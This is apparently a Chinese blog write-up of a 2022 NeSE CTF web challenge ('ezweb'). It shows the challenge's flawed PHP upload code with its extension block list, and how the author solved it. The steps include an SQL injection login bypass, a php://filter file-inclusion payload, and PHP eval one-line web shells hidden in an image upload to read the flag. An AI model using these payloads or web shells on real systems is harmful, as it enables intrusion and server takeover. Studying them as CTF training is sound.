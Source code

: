 ```yaml
---
title: NeSE丙升乙CTF升级赛Writeup
toc: true
date: 2022-10-03 10:33:32
index_img: /image/thumbnails/NeSE-logo-new.png
categories:
	- [CTF]
tags: [NeSE, Writeup]
---
```


10月2日NeSE丙组升乙组CTF升级赛Writeup

<!--more-->

还是Too naive了，只做出来一题+两个半题

# Web

## ezweb

### 1 登录

首先是一个系统登录界面，直接尝试诸如admin，test提示用户名密码错误之后，采用绕过密码判断`admin' or 1=1#`成功登录。（虽然后来不知道谁把admin密码置空了，可以直接登录admin，但影响不大，不管用什么账户登录都可以进行后续的文件上传）

<div align=center>  <img src="https://raw.githubusercontent.com/QGrain/picgo-bed/main/figure-2022/202210061142953.png" style="zoom:67%;"/></div>

### 2 分析

在首页`综合管理`乱点一通无果之后，切换到`用户列表`，看到有所有用户个人信息：

<!-- 让表格居中显示的风格 -->

<style>
.center 
{
  width: auto;
  display: table;
  margin-left: auto;
  margin-right: auto;
}
</style>


<div class="center">

|  ID  | User |            EmailAddress             | LastLogin           |
| :--: | :--: | :---------------------------------: | ------------------- |
|  1   | ads  | [qqq@mail.com](mailto:qqq@mail.com) | 2019-08-07 13:00:00 |

</div>

似乎并没有什么用，拉到最底下发现有提示

<img src="https://raw.githubusercontent.com/QGrain/picgo-bed/main/figure-2022/202210061143978.png" style="zoom:50%;" />

是提示**Please input "?f=aab.php"**，应该是可以包含任意文件。继续切到`修改个人信息`，发现可以修改管理员个人信息，此处可利用头像上传文件。然后结合之前的提示`?f=*php`和php伪协议读取源码

```bash
# 首先通过php://filter读取目标源码的base64
http://124.16.75.162:31010/table.php?f=php://filter/read=convert.base64-encode/resource=/var/www/html/info.php

# 然后再base64解码得到源码
```

- info.php（关键部分源码）

```php
<?php
if (isset($_POST['address'])) {
    ...
    if (isset($_FILES)) {
        if ($_FILES["file"]["error"] > 0) {
            echo "错误：" . $_FILES["file"]["error"] . "<br>";
        } else {
			function deldot($s){
				for($i = strlen($s)-1;$i>0;$i--){
					$c = substr($s,$i,1);
					if($i == strlen($s)-1 and $c != '.'){
						return $s;
					}
	 
					if($c != '.'){
						return substr($s,0,$i+1);
					}
				}
			}
			$deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini",".htaccess");
            $file_name = trim($_FILES['file']['name']);
			$file_name = deldot($file_name);
			//echo $file_name;
			$file_ext = strrchr($file_name, '.');
			$file_ext = strtolower($file_ext); 
			$file_ext = str_ireplace('::$DATA', '', $file_ext);
			$file_ext = trim($file_ext);
			
			if (!in_array($file_ext, $deny_ext)) {
				$name =$_FILES["file"]["name"] ;
				//$temp_file = $_FILES['file']['tmp_name'];
				//$img_path = UPLOAD_PATH.'/'.$file_name;
				$content = file_get_contents($_FILES['file']['tmp_name']);
				$content = str_replace('?', '!', $content);
				
				if (file_exists("upload/" . $_FILES["file"]["name"]))
                {
                    echo "<script>alert('文件已经存在');</script>";
                }
				else{
					move_uploaded_file($_FILES["file"]["tmp_name"], "assets/images/avatars/" . $_FILES["file"]["name"]);
					file_put_contents("assets/images/avatars/" . $_FILES["file"]["name"], $content);
					$helper = new sqlhelper();
					$sql = "UPDATE  admin SET icon='$name' WHERE id=$_SESSION[id]";
					$helper->execute_dml($sql);
				}
			} else {
				echo "<script>alert('不允许上传的类型');</script>";
			}
        }
    }
}
?>
```

看到对上传文件的最后一个`.`后面的扩展名做**黑名单限制**，以及进行了**小写转换**、**空格去除**、**特殊敏感字符替换**等操作。然后将服务端接收到的文件内容写入`assets/images/avatars/上传的文件名`。

### 3 上传

- 首先设计一句话木马：

```php
// 常见的一句话木马因为有?而失效
<?php eval(@$_POST['cmd']);?>
    
// 于是采用下面的马,一举两得
<script language="php">phpinfo();eval($_REQUEST['cmd']);</script>
```

- 然后上传木马，我尝试了各种姿势

  - burp改文件扩展名，burp改mime type都不行
  - %00截断也不行，说明php版本并不低
  - `zzy.php. .`空格绕过也不好使，虽然能上传成功，但好像访问不了==
  - ...
  - 最后还是选择用图片马，使用copy命令合并为`zzy.php.jpg`，然后直接上传成功

<div align=center><img src="https://raw.githubusercontent.com/QGrain/picgo-bed/main/figure-2022/202210061217984.png" style="zoom:60%;" /></div>

- 使用蚁剑连接成功

  - URL地址: http://124.16.75.162:31010/table.php?f=assets/images/avatars/zzy_req.php.jpg
  - 连接密码: `cmd`
  - (为了确保登录会话的有效，我也在请求信息里传入了Cookie)

- 在根目录下找到`flag{flaaaaaaaaaaaaaaaaaaa.ezweb}`

<div align=center><img src="https://raw.githubusercontent.com/QGrain/picgo-bed/main/figure-2022/202210061217687.png" style="zoom:60%;" /></div>

## sqli

TO BE COMPLETED



# Re

## Debuggame

TO BE COMPLETED